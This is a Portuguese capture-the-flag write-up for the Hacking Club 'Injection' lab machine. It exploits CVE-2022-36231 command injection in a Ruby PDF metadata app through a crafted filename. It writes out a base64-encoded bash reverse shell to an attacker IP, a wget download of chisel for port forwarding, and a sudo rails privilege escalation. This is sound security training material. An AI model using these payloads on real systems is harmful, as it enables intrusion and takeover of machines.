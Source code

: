 ```yaml
---
title: 'Injection Writeup'
date: '2024-11-25'
tags: ['CVE-2022-36231', 'Command Injection', 'Linux']
draft: false
summary: 'A máquina Injection é vulnerável a Command Injection (CVE-2022-36231) e escalonamento de privilégios via sudo.'
images: ['/static/images/injection-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/injection-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Injection

---

## **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 12:68:ac:62:e8:c0:bf:55:25:85:06:96:4b:99:bb:4a (ECDSA)
|_  256 65:dc:ed:09:75:7b:d2:d9:a0:19:e5:1c:e7:1d:14:53 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings:
|   GenericLines, Help, NCP:
|     HTTP/1.1 400 Bad Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 0
|     X-Content-Type-Options: nosniff
|     X-Download-Options: noopen
|     X-Permitted-Cross-Domain-Policies: none

```

Somente as portas 22 (SSH) e 3000 (HTTP) estão abertas.

---

## Enumeration

`http://172.16.4.120:3000`

Se trata de uma aplicação chamada **PDFInfo**, uma aplicação capaz de ler metadados de PDFs.

![injection](/static/images/injection-writeup-images/image.png)

Quando enviamos um PDF, podemos ver que a aplicação é desenvolvida em ruby:

![injection 1](/static/images/injection-writeup-images/image1.png)

Com isso, se pesquisarmos por **pdfinfo ruby exploit**, vemos existem CVEs associadas.

[https://github.com/affix/CVE-2022-36231](https://github.com/affix/CVE-2022-36231)

![injection 2](/static/images/injection-writeup-images/image2.png)

Nesse caso em especifico, temos a vulnerabilidade de **Command Injection.**

Testei o comando `id` , mas não obtive sucesso, o que indica ser um **Command Injection Blind**.

Passando o comando `sleep 5` , vemos que a aplicação demora pra retornar o resultado.

`;$(sleep 5).pdf`

![injection 3](/static/images/injection-writeup-images/image3.png)

---

## Foot Hold

Tentando passar a reverse shell do modo tradicional não funciona, então a alternativa foi encodar a payload em base64 antes de mandar.

`echo "bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1234 <&1'" | base64`

`echo -n YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMC4zMS4xNTAvMTMzNyA8JjEnCg== |base64 -d|sh`

![injection 4](/static/images/injection-writeup-images/image4.png)

---

## Privillege Escalation

Conseguimos executar o comando `/usr/local/bin/rails server -e development -p 8000` como root.

`sudo -l`

![injection 5](/static/images/injection-writeup-images/image5.png)

`rm /home/deployer/pdf-read-metadata/tmp/pids/server.pid`

`sudo /usr/local/bin/rails server -e development -p 8000`

![injection 6](/static/images/injection-writeup-images/image6.png)

Agora como podemos iniciar a aplicação como root, precisamos fazer um _Port Fowarding_ pra acessar a aplicação da nossa maquina.

O servidor tem o servidor SSH configurado e acessível que podemos utilizar, mas dessa vez utilizei a ferramenta `chisel` .

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

Para realizar o _Port Fowarding_, precisamos transferir o `chisel` pra maquina alvo.

`python -m http.server 80`

![injection 7](/static/images/injection-writeup-images/image7.png)

`wget http://10.0.31.150/chisel`

![injection 8](/static/images/injection-writeup-images/image8.png)

Após isso, na nossa maquina vamos ligar o servidor do chisel.

`./chisel server -p 9000 --reverse`

![injection 9](/static/images/injection-writeup-images/image9.png)

Agora na maquina alvo, vamos fazer o _Port Fowarding_.

OBS: utilizei duas shells para conseguir realizar.

`sudo /usr/local/bin/rails server -e development -p 8000` #no diretório `/pdf-read-metadata`

`./chisel client 10.0.31.150:9000 R:8000:127.0.0.1:8000` #no diretório `/tmp`

![injection 10](/static/images/injection-writeup-images/image10.png)

Com isso, podemos acessar a aplicação da nossa maquina.

![injection 11](/static/images/injection-writeup-images/image11.png)

Agora é só pegar a reverse-shell da mesma maneira utilizada na primeira vez, no entanto, agora vamos entrar como root.

![injection 12](/static/images/injection-writeup-images/image12.png)

---

## Proof

![injection 13](/static/images/injection-writeup-images/image13.png)
